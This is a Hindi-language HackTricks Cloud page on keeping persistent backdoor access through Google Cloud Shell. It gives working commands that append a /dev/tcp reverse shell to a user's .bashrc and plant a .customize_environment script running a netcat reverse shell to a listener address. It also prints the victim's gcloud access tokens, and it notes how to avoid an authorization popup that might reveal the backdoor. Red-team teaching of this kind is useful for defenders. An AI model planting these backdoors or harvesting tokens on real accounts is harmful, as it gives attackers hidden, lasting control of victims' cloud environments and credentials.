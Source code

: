 # GCP - क्लाउड शैल परिस्थिति

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ जीरो से हीरो तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स देखें**](https://github.com/sponsors/carlospolop)!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें द्वारा PRs सबमिट करके** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* github रेपो।

</details>

## क्लाउड शैल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### स्थायी बैकडोर

[**Google Cloud Shell**](https://cloud.google.com/shell/) आपको ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड लाइन एक्सेस प्रदान करता है बिना किसी जुड़े लागत के।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चला कर Google का Cloud Shell एक्सेस कर सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **किसी भी Google उपयोगकर्ता को Google Cloud तक पहुंचने का एक पूरी तरह से प्रमाणित Cloud Shell इंस्टेंस मिलता है** (सर्विस अकाउंट्स, तो यद्यपि संगठन के मालिक होने के बावजूद)।
2. कहा गया इंस्टेंस **कम से कम 120 दिनों तक अपने होम डायरेक्टरी को बनाए रखेगा** अगर कोई गतिविधि नहीं होती है।
3. उस इंस्टेंस की गतिविधि का मॉनिटरिंग करने के लिए **किसी संगठन के पास कोई क्षमताएं नहीं** हैं।

यह बुनियादी रूप से यह अर्थ है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर रख सकता है और जब तक उपयोगकर्ता कम से कम 120 दिनों के अंतराल पर GC Shell से कनेक्ट करता है, तब तक बैकडोर बना रहेगा और हमलावर को हर बार जब भी यह चलाया जाता है, शैल मिलेगा बस इसे करके:
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

होम फ़ोल्डर में एक और फ़ाइल है जिसका नाम है **`.customize_environment`** जो, अगर मौजूद है, तो **हर बार चलाया जाएगा** जब उपयोगकर्ता **क्लाउड शैल** तक पहुँचता है (पिछली तकनीक की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि उपयोगकर्ता "नियमित रूप से" क्लाउड शैल का उपयोग करता रहे:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
यह जरूरी है कि **पहली बार एक प्रमाणीकरण की आवश्यकता वाली कोई कार्रवाई की जाती है**, तो उपयोगकर्ता के ब्राउज़र में एक पॉप-अप अधिकारीकरण विंडो दिखाई देती है। इस विंडो को स्वीकार करना आवश्यक है पहले कमांड चल सके। अगर अप्रत्याशित पॉप-अप दिखाई देता है, तो यह संदेह उत्पन्न कर सकता है और उपयोग किए जा रहे स्थायित्व विधि को क्षति पहुंचा सकता है।
{% endhint %}

यह है पॉप-अप `gcloud projects list` को क्लाउड शैल से निषेधक के रूप में निष्पादित करने से ब्राउज़र के उपयोगकर्ता सत्र में देखा गया है:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से क्लाउडशैल का उपयोग किया है, तो पॉप-अप नहीं दिखाई देगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### कैसे SSH कनेक्शन स्थापित होता है

मुख्य रूप से, इन 3 API कॉल का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (यह आपको अपनी स्थानीय रूप से बनाई गई पब्लिक कुंजी जोड़ने पर मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (यह आपको इंस्टेंस शुरू करने में मदद करेगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (यह आपको गूगल क्लाउड शैल का आईपी बताएगा)

लेकिन आप [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) में अधिक जानकारी पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks प्रशिक्षण AWS रेड टीम एक्सपर्ट (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks प्रशिक्षण GCP रेड टीम एक्सपर्ट (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>हैकट्रिक्स का समर्थन करें</summary>

* [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.** पर हमें **फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रेपो में PR जमा करके।

</details>
{% endhint %}
